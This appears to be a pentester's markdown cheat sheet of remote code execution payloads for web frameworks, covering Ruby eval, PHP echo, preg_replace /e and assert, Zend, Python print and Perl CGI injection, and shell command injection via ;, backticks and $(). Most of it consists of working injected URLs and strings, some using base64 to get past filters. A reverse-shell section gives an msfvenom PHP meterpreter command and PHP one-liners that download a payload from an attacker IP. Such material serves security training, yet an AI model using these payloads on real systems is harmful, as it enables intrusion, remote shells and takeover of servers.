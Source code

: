 # Web apps frameworks : Code Execution




## Ruby on rail
### eval

ActiveRecord (Ruby-on-Rails' most common data mapper)
Function eval with param. Add an error with "
````
POST: user[name]=bob&user[password]=pwd&user[admin]=true
@message = eval "\"Hello "+params['username']+"\""
username=hacker”+`uname -a`+” : échapper les + en %2B
http://ptl-f3335912-d8dff103.libcurl.so/?username=hacker%22%2B`uname%20-a`%2B%22
````

## php
### echo, print
Add a .system('ls'). in an echo $GET['name']
````
bob".system('ls')."bob
````
http://ptl-41df0d58-5b5fffd3.libcurl.so/?name=hacker”.system(‘ls’).”bob



### preg_replace()
php can filter thanks to preg_replace(). /e flag can be used.
Use arg in evaluation function
echo preg_replace("/([a-z]*)", "hacker", “you are a lamer’); => you are a hacker
echo preg_replace("/([a-z]*)/e", "hacker", “you are a lamer’); => eval “hacker”, replace hacker by system(‘ls’)
http://ptl-d47b409d-42207d73.libcurl.so/?new=system(‘ls’)&pattern=/lamer/e&base=Hello lamer

Use arg in assert
http://ptl-ac7d180e-5efc435d.libcurl.so/?name=hacker’.system(‘ls’).’ //


### php zend framework
````
?order=id;}//
?order=id);}//
?order=id));}//
Try to find the correct number of ) and }

Then ?order=id);}system('uname%20-a');//
````

### Reverse shell


    msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.168.168 LPORT=443 R > revshell.php

    

    <?php echo (`whoami`); ?>
    <?php echo (`ls -l /tmp/`); ?>
    <?php echo `ifconfig`; ?>
    <?php echo `wget -O /upload/directory/payload.php http://192.168.168.168/blackwinter.php`; ?>
    <?php echo shell_exec("fetch -o /upload/directory/payload.php http://192.168.168.168/blackwinter.php"); ?>


## python
### print()
Check with " or '
````
Check :
http://vuln.com/hello/hacker” should generate error

Is python ? hacker”+str(True)+”test
http://vuln.com/hello/hacker"+str(True)+"test

Put code in str()
http://vuln.com/hello/hacker%22%2bstr(os.system('id'))%2b%22test

To get stdout, use os.popen('id').read()
http://vuln.com/hello/hacker%22%2bstr(os.popen('id').read())%2b%22test

If os is not loaded
http://vuln.com/hello/hacker%22%2bstr(__import__('os').popen('id').read())%2b%22test

Flask framework filter / after main path, encode it in base64
uname -a => __import__('base64').b64decode('dW5hbWUgLWE=')

http://ptl-7fc82aee-40987409.libcurl.so/hello/hacker%22%2bstr(__import__('os').popen(__import__('base64').b64decode(%22dW5hbWUgLWE=%22)).read())%2b%22test

Note :
+ %2b
" %22

````

## Apache .htaccess

Upload a crafted .htacess : https://github.com/wireghoul/htshells



## cgi in perl called by jquery
$.getJSON("/cgi-bin/hello?name="+document.location.hash.substring(1), function (data) {
http://ptl-f2dc2643-c482a93d.libcurl.so//cgi-bin/hello?name=bob%27.`uname`.%27


## shell 
### Add a command with ;
thanks to php exec
http://ptl-e178378e-fe879fa4.libcurl.so/?ip=127.0.0.1;ls

### Execute with back quote
````
http://ptl-4938c1df-399c9d4e.libcurl.so/?ip=`cmd`  : no output but cmd executed :)
=> ping -c 2 `cmd`
````

### $(command) to run a shell command.
````
http://ptl-836d9020-8f3b7b55.libcurl.so/?ip=$(touch /tmp/bob)
=> ping -c 2 $(touch /tmp/bob)
````
